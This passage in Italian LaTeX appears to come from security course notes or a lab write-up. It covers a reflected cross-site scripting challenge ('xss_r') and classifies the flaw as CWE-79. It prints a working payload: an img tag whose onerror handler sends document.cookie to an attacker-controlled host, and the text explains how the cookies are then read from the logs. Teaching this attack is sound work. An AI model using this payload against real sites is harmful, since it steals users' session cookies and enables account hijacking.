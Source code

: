 \begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.9.png}
\end{figure}
\FloatBarrier

La strategia di attacco a \texttt{xss\_r} ricalca quella vista per \texttt{xss\_s}. Tuttavia, a differenza della sfida precedente, li form HTML nell'applicazione \texttt{xss\_r} accetta molti più caratteri. Ciò rende possibili attacchi più sofisticati. Consideriamo il codice javascript seguente:
\begin{lstlisting}
<img
src=x
onerror = this.src =
'http://site/?c='+document.cookie
/>
\end{lstlisting}
Il tag \texttt{img} definisce un'immagine in un tag HTML. Si prova a caricare un'immagine inesistente: l'evento \texttt{onerror} scatta quanto si verifica un errore nel caricamento di un oggeto esterno. Se si verifica, viene associata una callback, specificando l'URL da richiedere in caso di errore. ALl'URL è attaccato un parametro \texttt{c}, il cui valore è la stringa contenente i cookie dell'ultima vittima. Se iniettiamo questo codice javascript nel form, viene provocato l'invio di una richiesta HTTP al web server \texttt{http://site}. L'URL della richiesta contiene i cookie dell'utente che ha caricato la pagine. Se il web server è sotto il controllo dell'attaccante, questo può analizzare i log e leggere i cookie. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.10.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non neutralizza (o lo fa in modo errato) l'input utente inserito in una pagina web. La CWE di riferimento è la \textbf{CWE-79 - Improper Neutralization of Input during Web Page Generation (Cross-site Scripting)}. 

